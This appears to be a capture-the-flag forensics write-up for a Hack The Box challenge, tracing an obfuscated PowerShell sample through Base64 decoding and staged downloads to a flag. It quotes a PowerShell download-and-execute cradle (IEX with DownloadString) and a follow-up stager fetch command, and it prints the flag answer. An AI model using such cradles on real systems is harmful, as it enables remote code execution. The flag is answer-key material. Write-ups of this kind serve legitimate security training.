 # Forensics - Thorins Amulet

## Challenge Information
- **Category**: Forensics
- **Challenge Name**: Thorins Amulet

## Challenge Overview

This forensic investigation involves analyzing an obfuscated PowerShell script, decoding a payload, and tracing staged download commands to uncover a hidden flag.

### 🛠 Preparation

To avoid modifying your `/etc/hosts` file, replace the hostname `korp.htb` with the Docker IP:
```
94.237.61.100:37543
```

---

### 🔹 Step 1: Download and Open the `.ps1` Script

Examine the contents of the PowerShell script. You'll find a Base64-encoded string embedded within:

```powershell
"SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
```

---

### 🔹 Step 2: Decode the Base64 String

Use your favorite tool to decode it. It translates to:

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

Replace `korp.htb` with `94.237.61.100:37543` to access it directly.

---

### 🔹 Step 3: Visit the Update URL

Navigate to:

👉 `http://94.237.61.100:37543/update`

This will download a second PowerShell file: `update.ps1`.

---

### 🔹 Step 4: Download the Next Stage Payload

Execute the following PowerShell command to retrieve the final script:

```powershell
Invoke-WebRequest -Uri "http://94.237.61.100:37543/a541a" `
  -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} `
  -Method GET -OutFile a541a.ps1
```

This fetches `a541a.ps1`, which contains the logic to generate the final flag.

---

### 🏁 Flag

```
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
```

**Author**: [kkc123](https://ctf.hackthebox.com/user/profile/606424)